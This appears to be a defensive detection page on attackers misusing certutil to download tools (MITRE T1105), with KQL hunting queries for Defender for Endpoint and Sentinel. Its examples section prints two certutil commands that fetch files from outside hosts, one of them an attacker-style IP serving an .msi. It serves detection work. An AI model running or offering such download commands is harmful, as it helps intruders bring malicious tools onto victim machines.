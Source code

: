 # Certutil Remote Download

## Query Information

#### MITRE ATT&CK Technique(s)

| Technique ID | Title    | Link    |
| ---  | --- | --- |
| T1105| Ingress Tool Transfer | https://attack.mitre.org/techniques/T1105/ |

#### Description
Adversaries may transfer tools or other files from an external system into a compromised environment. Tools or files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols. The living of the land binary certutil is know to be misused by adversaries to remotely collect malicious tools.

Malicious Examples (Sources, see references):
```PowerShell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil  -urlcache -f http[:]//23.26.137[.]225:8084/msappdata.msi c:\mpyutd.msi
```

#### Risk
An adversary transfered tools to the local device for execution.

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Certutil/
- https://www.huntress.com/blog/slashandgrab-screen-connect-post-exploitation-in-the-wild-cve-2024-1709-cve-2024-1708

## Defender For Endpoint
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder Timestamp, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
## Sentinel
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder TimeGenerated, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```